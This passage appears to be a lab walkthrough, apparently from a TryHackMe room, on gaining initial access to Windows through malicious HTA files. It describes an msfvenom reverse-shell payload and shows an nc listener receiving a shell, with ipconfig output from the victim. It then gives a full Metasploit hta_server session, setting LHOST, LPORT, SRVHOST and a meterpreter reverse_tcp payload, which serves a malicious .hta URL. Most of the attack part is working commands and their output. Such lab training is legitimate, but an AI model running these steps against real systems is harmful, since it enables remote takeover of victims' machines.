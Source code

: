 We use the msfvenom from the Metasploit framework to generate a malicious payload to connect back to the attacking machine. We used the following payload to connect the windows/x64/shell_reverse_tcp to our IP and listening port.

On the attacking machine, we need to listen to the port 443 using nc. Please note this port needs root privileges to open, or you can use different ones.

Once the victim visits the malicious URL and hits run, we get the connection back.

```
Terminal

           
user@machine$ sudo nc -lvp 443
listening on [any] 443 ...
10.8.232.37: inverse host lookup failed: Unknown host
connect to [10.8.232.37] from (UNKNOWN) [10.10.201.254] 52910
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\thm\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\TempState\Downloads>
pState\Downloads>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet 4:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::fce4:699e:b440:7ff3%2
   IPv4 Address. . . . . . . . . . . : 10.10.201.254
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.10.0.1


```

![[Pasted image 20220909231314.png]]

Malicious HTA via Metasploit 

There is another way to generate and serve malicious HTA files using the Metasploit framework. First, run the Metasploit framework using msfconsole -q command. Under the exploit section, there is exploit/windows/misc/hta_server, which requires selecting and setting information such as LHOST, LPORT, SRVHOST, Payload, and finally, executing exploit to run the module.

```
Terminal

           
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set LHOST 10.8.232.37
LHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set LPORT 443
LPORT => 443
msf6 exploit(windows/misc/hta_server) > set SRVHOST 10.8.232.37
SRVHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/misc/hta_server) >
[*] Started reverse TCP handler on 10.8.232.37:443
[*] Using URL: http://10.8.232.37:8080/TkWV9zkd.hta
[*] Server started.
```